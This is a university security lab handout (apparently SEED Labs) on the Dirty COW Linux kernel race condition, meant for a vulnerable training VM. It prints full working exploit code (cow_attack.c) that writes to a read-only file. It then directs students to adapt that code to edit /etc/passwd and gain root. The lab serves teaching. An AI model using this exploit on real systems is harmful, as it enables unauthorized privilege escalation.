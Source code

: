 ====================
Dirty COW Attack Lab
====================

Overview
========

The Dirty COW vulnerability is an interesting case of the race condition
vulnerability. It existed in the kernel since September 2007, and was
discovered and exploited in October 2016. The vulnerability affects all
-based operating systems, including Android, and its consequence is very
severe: attackers can gain the root privilege by exploiting the
vulnerability. The vulnerability resides in the code of copy-on-write
inside kernel. By exploiting this vulnerability, attackers can modify
any protected file, even though these files are only readable to them.

The objective of this lab is for students to gain the hands-on
experience on the Dirty COW attack, understand the race condition
vulnerability exploited by the attack, and gain a deeper understanding
of the general race condition security problems. In this lab, students
will exploit the Dirty COW race condition vulnerability to gain the root
privilege.

**Readings and videos.** Detailed coverage of the Dirty COW attack can be found in the following:

-  Chapter 8 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
   Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

-  Section 7 of the SEED Lecture at Udemy, Computer Security: A Hands-on Approach, by Wenliang
   Du. See details at `<https://www.handsonsecurity.net/video.html>`_.

**Lab environment.** This lab has been tested on our pre-built Ubuntu 12.04 VM, which can be
downloaded from the SEED website. If you are using our SEEDUbuntu 16.04
VM, this attack will not work, because the vulnerability has already
been patched in the kernel. You can download the SEEDUbuntu12.04 VM from
the SEED web site. If you have an Amazon EC2 account, you can find our
VM from the “Community AMIs”. The name of the VM is
``SEEDUbuntu12.04-Generic``. It should be noted that Amazon’s site says
that this is a 64-bit VM; that is incorrect. The VM is 32-bit. However,
this incorrect information does not cause any problem.

Task 1: Modify a Dummy Read-Only File
=====================================

The objective of this task is to write to a read-only file using the
Dirty COW vulnerability.

Create a Dummy File
-------------------

We first need to select a target file. Although this file can be any
read-only file in the system, we will use a dummy file in this task, so
we do not corrupt an important system file in case we make a mistake.
Please create a file called ``zzz`` in the root directory, change its
permission to read-only for normal users, and put some random content
into the file using an editor such as ``gedit``.

::

   $ sudo touch /zzz
   $ sudo chmod 644 /zzz
   $ sudo gedit /zzz
   $ cat /zzz
   111111222222333333
   $ ls -l /zzz
   -rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
   $ echo 99999 > /zzz
   bash: /zzz: (*@\texttt{Permission denied}@*)

From the above experiment, we can see that if we try to write to this
file as a normal user, we will fail, because the file is only readable
to normal users. However, because of the Dirty COW vulnerability in the
system, we can find a way to write to this file. Our objective is to
replace the pattern ``"222222"`` with ``"******"``.

Set Up the Memory Mapping Thread
--------------------------------

You can download the program ``cow_attack.c`` from the website of the
lab. The program has three threads: the main thread, the write thread,
and the madvise thread. The main thread maps ``/zzz`` to memory, finds
where the pattern ``"222222"`` is, and then creates two threads to
exploit the Dirty COW race condition vulnerability in the OS kernel.
Listing 1: The main thread.

::

   /* cow_attack.c  (the main thread) */

   #include <sys/mman.h>
   #include <fcntl.h>
   #include <pthread.h>
   #include <sys/stat.h>
   #include <string.h>

   void *map;

   int main(int argc, char *argv[])
   {
     pthread_t pth1,pth2;
     struct stat st;
     int file_size;

     // Open the target file in the read-only mode.
     int f=open("/zzz", O_RDONLY);

     // Map the file to COW memory using MAP_PRIVATE.
     fstat(f, &st);
     file_size = st.st_size;
     map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

     // Find the position of the target area
     char *position = strstr(map, "222222");                         ➀

     // We have to do the attack using two threads.
     pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); ➁
     pthread_create(&pth2, NULL, writeThread, position);             (3)

     // Wait for the threads to finish.
     pthread_join(pth1, NULL);
     pthread_join(pth2, NULL);
     return 0;
   }

In the above code, we need to find where the pattern ``"222222"``\ is.
We use a string function called ``strstr()`` to find where ``"222222"``
is in the mapped memory (Line ➀). We then start two threads:
``madviseThread`` (Line ➁) and ``writeThread`` (Line ➂).

Set Up the ``write`` Thread
---------------------------

The job of the ``write`` thread listed in the following is to replace
the string ``"222222"`` in the memory with ``"******"``. Since the
mapped memory is of COW type, this thread alone will only be able to
modify the contents in a copy of the mapped memory, which will not cause
any change to the underlying ``/zzz`` file. Below is Listing 2: The 
``write`` thread.

::

   /* cow_attack.c (the write thread) */

   void *writeThread(void *arg)
   {
     char *content= "******";
     off_t offset = (off_t) arg;

     int f=open("/proc/self/mem", O_RDWR);
     while(1) {
       // Move the file pointer to the corresponding position.
       lseek(f, offset, SEEK_SET);
       // Write to the memory.
       write(f, content, strlen(content));
     }
   }

The ``madvise`` Thread
----------------------

The ``madvise`` thread does only one thing: discarding the private copy
of the mapped memory, so the page table can point back to the original
mapped memory. Below is Listing 3: The ``madvise`` thread.

::

   /* cow_attack.c (the madvise thread) */

   void *madviseThread(void *arg)
   {
     int file_size = (int) arg;
     while(1){
         madvise(map, file_size, MADV_DONTNEED);
     }
   }

Launch the Attack
-----------------

If the ``write()`` and the ``madvise()`` system calls are invoked
alternatively, i.e., one is invoked only after the other is finished,
the ``write`` operation will always be performed on the private copy,
and we will never be able to modify the target file. The only way for
the attack to succeed is to perform the ``madvise()`` system call while
the ``write()`` system call is still running. We cannot always achieve
that, so we need to try many times. As long as the probability is not
extremely low, we have a chance. That is why in the threads, we run the
two system calls in an infinite loop. Compile the ``cow_attack.c`` and
run it for a few seconds. If your attack is successful, you should be
able to see a modified ``/zzz`` file. Report your results in the lab
report and explain how you are able to achieve that.

::

   $ gcc cow_attack.c -lpthread
   $ a.out
     ... press Ctrl-C after a few seconds ...

Task 2: Modify the Password File to Gain the Root Privilege
===========================================================

Now, let’s launch the attack on a real system file, so we can gain the
root privilege. We choose the ``/etc/passwd`` file as our target file.
This file is world-readable, but non-root users cannot modify it. The
file contains the user account information, one record for each user.
Assume that our user name is ``seed`` . The following lines show the
records for root and ``seed``:

::

   root:x:0:0:root:/root:/bin/bash
   seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash

Each of the above record contains seven colon-separated fields. Our
interest is on the third field, which specifies the user ID (UID) value
assigned to a user. UID is the primary basis for access control in , so
this value is critical to security. The root user’s UID field contains a
special value 0; that is what makes it the superuser, not its name. Any
user with UID ``0`` is treated by the system as root, regardless of what
user name he or she has. The ``seed`` user’s ID is only ``1000``, so it
does not have the root privilege. However, if we can change the value to
``0``, we can turn it into root. We will exploit the Dirty COW
vulnerability to achieve this goal.

In our experiment, we will not use the ``seed`` account, because this
account is used for most of the experiments in this book; if we forget
to change the UID back after the experiment, other experiments will be
affected. Instead, we create a new account called ``charlie``, and we
will turn this normal user into root using the Dirty COW attack. Adding
a new account can be achieved using the ``adduser`` command. After the
account is created, a new record will be added to ``/etc/passwd``. See
the following:

::

   $ sudo adduser charlie
     ...
   $ cat /etc/passwd | grep charlie
   charlie:x:1001:1001:,,,:/home/charlie:/bin/bash

We suggest that you save a copy of the ``/etc/passwd`` file, just in
case you make a mistake and corrupt this file. An alternative is to take
a snapshot of your VM before working on this lab, so you can always roll
back if the VM got corrupted.

**Task.** You need to modify the ``charlie``\ ’s entry in ``/etc/passwd``, so the
third field is changed from ``1001`` to ``0000``, essentially turning
``charlie`` into a root account. The file is not writable to
``charlie``, but we can use the Dirty COW attack to write to this file.
You can modify the ``cow_attack.c`` program from Task 1 to achieve this
goal.

After your attack is successful, if you switch user to ``charlie``, you
should be able to see the ``#`` sign at the shell prompt, which is an
indicator of the root shell. If you run the ``id`` command, you should
be able to see that you have gained the root privilege.

::

   seed@ubuntu$ su charlie
   Passwd: 
   root@ubuntu# id
   uid=0(root) gid=1001(charlie) groups=0(root),1001(charlie)

Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits